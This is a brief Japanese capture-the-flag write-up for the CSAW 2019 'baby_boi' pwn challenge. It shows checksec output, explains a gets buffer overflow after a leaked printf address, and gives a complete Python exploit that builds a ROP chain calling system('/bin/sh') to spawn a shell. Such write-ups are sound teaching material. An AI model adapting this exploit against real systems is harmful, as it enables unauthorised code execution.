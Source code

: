 # [pwn 50pts] baby_boi - CSAW CTF Qualification 2019
64ビットバイナリで、DEP以外無効です。
```
$ checksec -f baby_boi
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   68 Symbols     No       0               4       baby_boi
```
IDAで解析すると、printfのアドレスが貰えたあとにgetsがあるので、単純なBOFです。
```python
from ptrlib import *

libc = ELF("./libc-2.27.so")
sock = Process("./baby_boi")

sock.recvuntil(": ")
libc_base = int(sock.recvline(), 16) - libc.symbol("printf")
logger.info("libc base = " + hex(libc_base))

payload = b'A' * 0x28
payload += p64(0x00400794)
payload += p64(0x00400793)
payload += p64(libc_base + next(libc.find("/bin/sh")))
payload += p64(libc_base + libc.symbol("system"))
sock.sendline(payload)

sock.interactive()
```

# 感想
簡単ですね。
